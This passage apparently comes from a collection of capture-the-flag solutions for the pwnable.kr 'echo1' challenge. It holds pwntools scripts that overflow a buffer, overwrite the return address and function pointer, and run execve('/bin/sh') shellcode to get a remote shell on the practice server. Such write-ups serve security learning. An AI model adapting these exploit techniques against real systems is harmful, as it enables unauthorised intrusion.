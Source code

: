 ```python
pl += asm(shellcraft.execve("/bin/sh"))
p.sendline(pl)

p.interactive()
```
this one is magnificent.
### `strawhat`
```python
from pwn import *

context.binary = ELF("./echo1",checksec=False)

o = 0x602098
sc = asm(pwnlib.shellcraft.sh())

p = remote("pwnable.kr",9010)

print(sc)


p.sendline(b"a" * 0x18) # name
p.sendline(b"1")
# writes to o+16
payload2 = cyclic(0x20) # random character sequnce 
payload2 += p64(o+0x30) # rbp value
payload2 += p64(0x400837) # jmps to lea rax, [rbp -0x20] and input again
p.sendline(payload2)
# writes the location of the shellcode into byebye :)
p.sendline(p64(0x6020d8) * 6 + sc) 

p.interactive()
```

